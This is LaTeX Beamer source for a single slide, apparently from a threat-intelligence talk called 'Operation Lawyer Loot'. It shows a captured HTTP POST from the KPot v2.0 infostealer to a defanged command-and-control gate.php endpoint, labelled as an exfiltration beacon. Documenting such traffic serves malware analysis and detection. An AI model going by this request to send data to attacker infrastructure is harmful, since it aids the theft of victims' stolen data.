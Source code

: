 \documentclass[aspectratio=169]{beamer}
\begin{document}
{
\begin{frame}[fragile]{}
  \frametitle{Operation Lawyer Loot}
  \framesubtitle{KPot v2.0 - CnC Exfiltration Traffic}
  \begin{figure}
    \begin{verbatim}
POST /BOH9KGa4jvUsU4jL/gate[.]php HTTP/1.1
Content-Type: application/octet-stream
Content-Encoding: binary
Host: benten09[.]futbol
Content-Length: 247782
Connection: Keep-Alive
Cache-Control: no-cache

[HTTP Client Body Binary Data (Encrypted)]
    \end{verbatim}
    \caption{KPot v2.0 - CnC Exfiltration Beacon}
  \end{figure}
\end{frame}
}
\end{document}
